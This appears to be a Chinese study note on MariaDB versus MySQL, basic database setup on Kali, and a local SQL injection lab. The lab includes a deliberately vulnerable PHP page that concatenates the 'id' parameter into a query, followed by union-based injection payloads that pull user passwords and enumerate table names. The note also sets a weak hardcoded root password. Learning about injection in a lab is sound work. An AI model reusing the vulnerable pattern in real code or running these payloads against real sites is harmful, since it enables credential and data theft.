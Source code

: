 # mariaDB和mysql有什么区别

(kali镜像上默认的是mariaDB)

1. 起源和关系
    MySQL
    最早由瑞典公司 MySQL AB 开发，后来被 Sun Microsystems 收购，再被 Oracle 收购。
    MariaDB
    由 MySQL 的原始开发团队在 Oracle 收购后分支出来，作为 MySQL 的“开源替代品”。
2. ***兼容性***
    命令行、API、协议：MariaDB 和 MySQL 在大多数场景下都兼容，配置和 SQL 语法基本一致。
    数据文件格式：绝大多数情况下 MariaDB 可以无缝替换 MySQL（低版本），但高版本功能逐渐分化。
3. 开源与授权
    MySQL
    Oracle 主导，分为社区版和商业版，部分新功能限制在商业版。
    MariaDB
    完全开源，采用 GPL 授权，更加开放。
4. 发展方向
    MySQL
    由 Oracle 主导，开发进度和新特性发布更谨慎，部分新特性闭源。
    MariaDB
    社区驱动，更新较快，集成了更多存储引擎和新特性（如 Aria、ColumnStore、Spider 等）。
5. 性能与扩展
    MariaDB 针对某些查询和多线程有优化，部分场景下性能优于 MySQL。
    MariaDB 集成了更多存储引擎选择。
6. ***应用兼容***
    大多数使用 MySQL 的应用（如 WordPress、phpMyAdmin）也可以直接用 MariaDB，无需修改代码。
    但在高版本（特别是 10.x 以后），新特性可能出现不兼容。
7. 命令和使用习惯
    操作命令几乎一致：mysql、mysqldump、mysqladmin 等 MariaDB 也提供。
    配置文件、目录结构基本相同。
8. 默认情况
    许多 Linux 发行版（如 Debian、Kali、Ubuntu）默认源里已经用 MariaDB 替换了 MySQL。
简明总结
    MariaDB 是 MySQL 的一个分支，保持高度兼容，性能更优，开源更彻底。
    MySQL 由 Oracle 控制，部分功能闭源，适合需要官方支持的企业用户。

# 基础步骤

```bash 
sudo systemctl start mariadb //启动数据库服务
```

```bash
sudo systemctl enable mariadb //设置开机自启动（方便一点）
```

```bash
sudo mariadb //默认无密码，直接用sudo权限即可启动
```

```bash
mariadb -u root -p //账号名加密码登录
```

```sql
SET PASSWORD FOR 'root'@'localhost' = PASSWORD('kali'); //将密码设置为kali
```

# 简单的数据库创建

```sql
CREATE DATABASE test; //创建数据库
```

```sql
SHOW DATABASES; //查看数据库列表
```

```sql
USE test; //选择数据库进入
```

```sql
CREATE TABLE users ( //创建数据表
    id INT PRIMARY KEY AUTO_INCREMENT, //id是一个int类型量，PRIMARY KEY唯一标识，每一行不能重复不能为空，AUTO_INCREMENT自增，自动加一，无需赋值
    username VARCHAR(50), //VARCHAR(50)表示一个最多存50个字符的变长字符串
    password VARCHAR(50)
);
```

```sql
INSERT INTO users (username, password) VALUES //往表中插入数据
('bob', 'password1'), //位置对应
('charlie', 'mypwd2'),
('david', 'abc123');
```

```sql
SELECT * FROM users; //查看表中所有条目
```

```bash
sudo dpkg -i vscode.deb //（插播）使用dpkg安装.deb安装包
```

创建一个基础用于测试sql注入的.php
```php
<?php
	$conn = mysqli_connect("localhost","root","kali","test");
	$res = mysqli_query($conn, "SELECT title, content FROM wp_news WHERE id=".$_GET['id']);
	$row = mysqli_fetch_array($res);
	echo "<center>";
	
	echo "<h1>".$row['title']."</h1>";
	echo "<br>";
	
	echo "<h1>".$row['content']."</h1>";
	echo "</center>";
?>
```

```sql
SELECT title, content FROM wp_news WHERE id=1; //SELECT的筛选查找
```

通过url传入id=3-2与id=1等价，id=3-1与id=2等价，这意味着对于算术式子mysql会自动计算结果传入。

这样子也可以推理得知php代码中是使用字符串直接连接$id和sql语句，因此可以直接用union注入：

?id=1 union select user,pwd from wp_user limit 1,1

```sql
SELECT title, content FROM wp_news WHERE id=1 union select user,pwd from wp_user limit 1,1;
//union会将两个select结果合并，这要求两部分字段数量和类型一致，而limit 1,1代表跳过第一行只取第二行
//也可以令前面的id=-1这样也是只显示后面的结果
```

实际情况中可以用url编码来导入空格，空格是'%20'。

在完全未知的情况下进行sql注入：

```sql
select 1, group_concat(table_name)
from information_schema.tables  
where table_schema = database(); 
```


- information_schema.tables：这是 MySQL 数据库的元数据表，存放所有数据库的表信息。
- where table_schema=database()：限定只查询当前所用数据库（database() 返回当前数据库名）。
- group_concat(table_name)：将当前数据库下所有表名用逗号拼接成一个字符串。
- select 1, ...：第一个字段恒为 1，第二个字段为拼接后的表名列表。

之所以拼接到一起，是因为利用union进行注入时要对齐字段数量和类型

实际注入：

?id=-1 union select 1, group_concat(table_name) from information_schema.tables where table_schema = database();

这种注入的基本思路：

1 通过传入代数算式判断php语句的input两边是否有引号
2 随后利用union来进行其他的信息操作

# 如何在浏览器中查看php文件输出

将php文件放到/var/www/html/目录下

```bash
sudo cp yourfile.php /var/www/html/
```

在本地启动apache服务：

```bash
sudo systemctl start apache2
```


在浏览器中访问http://localhost/yourfile.php即可（已有apache2服务的前提下）

（前者是localhost的默认地址，应该也可以修改或者指定）


